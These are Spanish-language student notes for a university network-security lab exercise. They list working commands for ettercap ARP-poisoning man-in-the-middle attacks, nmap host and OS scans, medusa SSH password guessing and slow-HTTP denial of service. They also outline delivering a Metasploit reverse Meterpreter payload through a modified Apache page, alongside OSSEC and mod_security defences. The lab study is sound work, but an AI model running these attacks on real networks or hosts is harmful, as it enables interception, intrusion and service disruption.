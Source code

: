 paquete instalado ettercap-common


ettercap -> sniffer (instalar por apt) -> 
-P -> enseña plannings
-M -> man in the middle (especificar modelos (remote/oneway))
-T -> text mode (always specify)
-i -> interfaz de lectura (33/34)
-W -> guardar paqueteria (noselee sin interfaz)

maquinas o segmentos de maquinas
TARGET1 -> salientes    /IP COMPAÑERO// 
TARGET2 -> receptores   /10.11.48.1// (router)

TARGET1 el que siempre sale envenenado (no poner router aqui)

envenenamiento de toda a red:
/// -> todo 
/// -> todo

pasar archivo generado con -W a local con:
scp lsi@miip:\ruta \miruta

wireshark -> descargar en local (usar con cheatsheet)

b) -> 
        A.29    S
         |      |
ens33 ___|______|_________________
                    |
                    |
                   B.30

nmap -sp 10.11.49.* -sP
paquetes mios tmb
HTTPS: cifrado entre ambos puntos
HTTP: sin cifrar

arp -a
si poisoning funciona: atacado solo se encuentra getway y ip compañero
DC:------ <- gateway real
00:50 -----<- mac maquina virtual

tshark -f "tcp" -> filter tcp only
tshark -f "udp"



g -> ultima semana

j) -> computacionalmente costoso -> .48.16-49.254 clones (no hacer sobre todos, escoger no clones y un par de ellos)
ipv4 ipv6 herramientas distintas
k) top pero pa conexiones
l) -> PROBLEMAS (no se van a dar en teoria) -> pistas : distinguir entre directos y reflectivos (teoria) impementar sobre servidor apache
uno server otro atacante herrmaienta -> slowttptest
ataque desde capa aplicacion (7) -> securacion mod.security (mod.evasive no vale) -> va a pedir cambiar el comando de ataque -0.5 -> solucion: explicar porque ahora funciona el apache
m) MX -> mail exchange (servicio) estafeta
DNS -> Transferencia de zona -> si/no -> resolucion inversa
n
ñ
o

q - r - s

probara con ssh password guessing user(lsi)+password(#10/#20) -> medusa (ir cambiando)

q) -> logcheck /ver/log -> mail -> lsi@localhost
no es un servicio, se debe apendear al cron (a las 8:00AM)
slow http test

OSSEC -> IPS -> identificar y proteger
compilar a mano ()
detectara el ssh, comuninca y bloquea la ip
el password guessing deberia parar
! -> jefe bloqueado -> OSSEC SE MANTIENE ACTIVADO, ossec deberia ser el que arregle, si es incorrecta, el password guessing deberia bloquearlo despies de unas cuantos intentos

G)  1) metasploit payload REVERSE TLP METERPRETER 
        LHOST LPORT
        RHOST RPORT
        ...
    2) comprobar payload
        abrir meterpreter
        comprobar que la maquina es otra distinta (sysinfo)

    3) ingenieria social + ettercap
        modificar la pagina de apache a que se descargue el payload


### SECTION A
`apt install ettercap-text-only`

### SECTION B
`ettercap -T -q -i ens33 -M arp:remote //10.11.48.23/ //10.11.48.1 -w ettlog`

### SECTION C 
`nmap -sP 10.11.48.0/23`

### SECTION D
`ping6 -c2 -I ens33 ff02::1`
`ip -6 neigh`

### SECTION E
`tcpdump -w archivo`

### SECTION H
`ettercap -Tq -M arp:remote -P remote_browser -P repoison_arp -w cosa -i ens33 /10.11.49.101/2002:0a0b::315b/ /10.11.48.1//`

### SECTION I


### SECTION J

Scanear rango : nmap -sn 10.11.49.93-100

Host Discovery : nmap -sn 10.11.49.101
Port Scanning: nmap -sV 10.11.49.101
OS fingerprintin : nmap -O --osscan-guess 10.11.48.142
Port scanning: nmap -sV -6 2002:0a0b:315b::1

### SECTION K
`iftop -i ens33`
`vnstat -l -i ens33`

### SECTION M
``

### SECTION N 
`apt install libapache2-mod-security2`

### SECTION O
whois desde mi maquina 
`whois -h whois.ripe.net UDC`
`dig udc.es MX`
no se puede (`dig axfr @zipi.udc.es udc.es.`)
`nmap --script hostmap-crtsh.nse udc.es`

`apt install whatweb`
`whatweb www.usc.es`

### SECTION P
`nmap -A 10.11.48.1`
guardar output: `root@debian:/home/lsi# nmap -A 10.11.48.0/23 > nmap_full.txt`

### SECTION Q
`/home/lsi# medusa -h 10.11.49.106 -u lsi -P 10k-most-common.txt -M ssh`

### SECTION R
unban:
`/var/ossec/active-response/bin/host-deny.sh delete - <ip>
/var/ossec/active-response/bin/firewall-drop.sh delete - <ip>`
check logs:
`tail /var/ossec/logs/ossec.log
tail /var/ossec/logs/active-responses.log`

